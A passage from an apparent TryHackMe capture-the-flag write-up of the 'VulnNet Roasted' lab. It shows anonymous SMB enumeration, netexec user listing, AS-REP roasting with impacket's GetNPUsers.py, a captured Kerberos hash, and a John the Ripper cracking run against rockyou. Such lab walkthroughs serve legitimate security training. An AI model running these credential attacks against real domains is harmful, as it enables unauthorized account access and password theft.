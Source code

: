 I got this domain name from this null credentials login attempt 🔽
![Image](Pasted%20image%2020240226221215.png)
_Domain Name is ▶️ vulnnet-rst.local_
Lets see the share access with Anonymous login or not 🔽
![Image](Pasted%20image%2020240226221107.png)
_READ Access on smb shares_
> If I get the **<span style="color:#00ff91">IPC$</span>** share access that means that I can enumerate users through netexec tool.
{: .prompt-tip }

I got the usernames and the group names like this 🔽
![Image](Pasted%20image%2020240226215905.png)
_User and Group enum with netexec_
Lets collect them in a file 🔽
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/VulnNet_Roasted]
└─$ cat a.txt| cut -d '\' -f 2 | grep SidTypeUser | awk '{print $1}'
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```
{: .nolineno}
{: .nolineno}
I then performed **<span style="color:#61ffe5">AS-REP-ROASTING</span>** using `GetNPUsers.py` Tool from impackets and I got this result 🔽
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/VulnNet_Roasted]
└─$ /opt/Tools/impacket/examples/GetNPUsers.py -no-pass 'vulnnet-rst.local/' -dc-ip 10.10.138.220 -request -usersfile users.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator does not have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest does not have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ does not have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn does not have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat does not have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:29348c9e50198d204c7491fd8dbba0e1$493e494302848c63a455af3884030a662b7c692db761741ba02ba13d92444ff0e53a3bc48b1e7269753da98c823c16fb98da95228c4b7ad6b4afc9c0a5e0df950ef6344a53fce85095736b4f6776e95459f6c661ce99caeae0a6e1a181cc342fd0012ec5f045f5a758ede9dde10a926fa119e43a4782b581bd3cd95fdc70b3da473d41c7374f0be174b6e559df37fcbeedb1a4c45a980c2fdee0864bbb0fb658502f9af741732a991d73217cb71d540576b6e0491abd5f0ba97bd43a01fc020dc786cc62475808a7cdb28249adb91f6ed1f7aa5931f2f3912176e7d1bd5c2770f940866ab2909c9b501671938cfc18516fa4d66c7cd7
[-] User j-goldenhand does not have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet does not have UF_DONT_REQUIRE_PREAUTH set
```
{: .nolineno}
{: .nolineno}
Now I will be using John The Ripper to crack this hash value 🔻
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/VulnNet_Roasted]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```